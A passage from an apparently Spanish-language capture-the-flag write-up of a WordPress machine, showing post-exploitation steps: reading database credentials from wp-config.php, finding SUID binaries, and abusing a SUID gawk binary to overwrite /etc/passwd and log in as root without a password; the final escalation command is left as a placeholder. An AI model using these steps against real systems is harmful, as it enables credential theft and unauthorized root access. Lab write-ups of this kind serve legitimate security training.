 Ahora solo activamos el **pluggin** y tendremos una shell como el usuario **www-data**

---
## Escalada de Privilegios
### Enumeracion del Sistema
En esta ruta tenemos la configuracion de la base de datos:
```bash
# Comandos clave ejecutados
/var/www/html/wordpress/wp-config.php
```

**Hallazgos Clave:**
Revisando tenemos credencilaes de acceso:
```bash
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', 'contrapoderosa123' );
```

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Ahora nos aprovecharnos de eso para ver la base de datos
```bash
mysql -u wordpressuser -p # ( contrapoderosa123 )
```

No encontramos gran cosa en la base de datos, Ahora si listamos por permisos **SUID**
```bash
find / -perm -4000 -ls 2>/dev/null
```

Tenemos un binario:
```bash
7451646    728 -rwsr-xr-x   1 root     root         739840 Mar 30  2024 /usr/bin/gawk
```

Para explotar este binario, Nos creamos una capia del archivo **/etc/passwd** en el directorio **tmp**, Quitandole la **x** en nuestro archivo falso para que cuando logremos inyectar el contenido nos permita loguearnos como **root** sin proporcionar contrasena:
```bash
/usr/bin/gawk '{print > "/etc/passwd"}' passwd
```

Ahora solo ejecutamos este comando para elevar nuestro privilegio:
```bash
# Comando para escalar al usuario: ( root )
[comando_escalada]
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@89c32be65b05:~# whoami
root
```

---

